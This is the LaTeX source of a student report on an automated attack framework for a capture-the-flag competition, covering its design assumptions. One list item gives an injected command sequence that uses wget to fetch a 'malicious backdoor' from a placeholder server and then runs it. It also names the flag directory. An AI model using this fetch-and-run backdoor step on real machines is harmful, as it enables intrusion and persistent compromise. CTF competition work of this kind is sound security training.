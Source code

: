 \documentclass[12pt]{report}
\begin{document}
\noindent In this report, we will cover our overall design including details of how each tool in our framework operates and the services they provide a CTF team. We follow up with explanations of how we developed our framework and reporting the justifications behind why these tools were built and the goal of what these tools are to achieve. We also justify the assumptions taken into account when developing the framework. We transition into the results we have achieved while also documenting some of the problems we had encountered or foresaw regarding our tools in relation to the actual competition. Finally we discuss the impact of our developments, tools, and observations in our conclusion.

\section*{Design and Implementation}
Our design makes the following assumptions about the structure of the competition servers:

\begin{enumerate}
	\item There will be at \textbf{least} one buffer overflow or OS code injection vulnerability that allows us to inject the shell code comprising the following commands:
	\begin{itemize}
		\item \texttt{wget <serverURI>} - This allows us to install the malicious backdoor on the victim machine
		\item \texttt{./backdoor.sh} - This allows us to immediately begin running the script after installation
	\end{itemize}
	\item Flags will be stored, read, and written to the following directory: \\\\ \texttt{/opt/ctf/<some\_game\_service>/rw/} \\\\
	Note that we also assume that all game servers will operate similarly to each other.
	\item The existing services on the example server will also be present on the live server.\\ 
	The current services on the example server can be automated through a tool we construct. Furthermore, if the new services added on the live CTF server are similar to the existing services, in terms of vulnerability and input, our tools should be easily configurable to also exploit the new services.
\end{enumerate}
\end{document}
